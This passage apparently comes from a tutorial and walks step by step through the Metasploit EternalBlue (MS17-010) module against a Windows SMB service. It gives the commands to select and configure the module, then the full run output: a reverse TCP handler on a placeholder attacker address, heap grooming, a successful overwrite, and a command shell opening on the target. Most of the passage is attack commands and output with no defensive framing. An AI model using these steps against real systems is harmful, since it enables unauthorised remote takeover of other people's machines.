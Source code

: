 3. **Select the EternalBlue exploit:**
```bash
msf5 > use exploit/windows/smb/ms17_010_eternalblue
```

4. **Configure the exploit:**
```bash
msf5 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s)
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target

# Set the target IP
msf5 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS [TARGET_IP]
RHOSTS => [TARGET_IP]
```

5. **Execute the exploit:**
```bash
msf5 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on [ATTACKER_IP]:4444
[*] [TARGET_IP]:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] [TARGET_IP]:445 - Host is likely VULNERABLE to MS17-010!
[*] [TARGET_IP]:445 - Scanned 1 of 1 hosts (100% complete)
[*] [TARGET_IP]:445 - Connecting to target for exploitation.
[+] [TARGET_IP]:445 - Connection established for exploitation.
[+] [TARGET_IP]:445 - Target OS selected valid for OS indicated.
[*] [TARGET_IP]:445 - CORE raw buffer dump (42 bytes)
[*] [TARGET_IP]:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] [TARGET_IP]:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] [TARGET_IP]:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1
[+] [TARGET_IP]:445 - Target arch selected valid for arch indicated.
[*] [TARGET_IP]:445 - Trying exploit with 12 Groom Allocations.
[*] [TARGET_IP]:445 - Sending all but last fragment.
[*] [TARGET_IP]:445 - Starting non-paged pool grooming
[+] [TARGET_IP]:445 - Sending SMBv2 buffers
[+] [TARGET_IP]:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] [TARGET_IP]:445 - Sending final SMBv2 buffers.
[*] [TARGET_IP]:445 - Sending last fragment of exploit packet!
[*] [TARGET_IP]:445 - Receiving response from exploit packet
[+] [TARGET_IP]:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] [TARGET_IP]:445 - Sending egg to corrupted connection.
[*] [TARGET_IP]:445 - Triggering free of corrupted buffer.
[*] Command shell session 1 opened ([ATTACKER_IP]:4444 -> [TARGET_IP]:49158)

C:\Windows\system32>
```
